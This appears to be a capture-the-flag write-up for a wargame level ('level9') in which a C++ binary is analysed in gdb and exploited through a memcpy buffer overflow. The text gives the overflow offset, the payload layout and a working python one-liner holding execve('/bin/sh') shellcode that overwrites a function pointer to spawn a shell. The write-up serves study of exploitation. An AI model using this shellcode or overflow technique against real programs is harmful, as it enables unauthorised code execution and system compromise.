 In this level we're given a cpp program.

After analyze it with gdb we can find 5 interesting functions :

N::N(int)
N::setAnnotation(char*)
N::operator+(N&)
N::operator-(N&)
main This binary is written in cpp and there is no calls to /bin/sh, we can assume we'll have to use shellcode this time.
We should use the memcpy() on argv[1] in setAnnotation() to make the call to edx calls a shellcode. Basically, this is a buffer overflow.
First of all, find the offset using the pattern generator and eip offset finder :

r 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()

info register eax

eax            0x41366441       1094083649

the offset starts at 108

let's build the payload using a shellcode for the /bin/sh call
Put a breakpoint at main+136 before:
b *main+136 

(gdb) x/x $eax
0x804a00c:	0x41414141 // buffer address
(gdb) si
0x08048680 in main ()
(gdb) x/x $eax
0x804a078:	0x62626262
(gdb) si
0x08048682 in main ()
(gdb) x/x $eax
0x62626262:	Cannot access memory at address 0x62626262
First we have AAAA (41414141) at the address 0x804a00c offset 0, then bbbb (62626262) at the offset 108 and finally the error

the payload will look like this:
payload : shell_addr + shellcode + padding + buffer_addr
          [4 bytes]   [28 bytes]  [76 bytes]  [4 bytes] = 108 + 4

python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'

./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')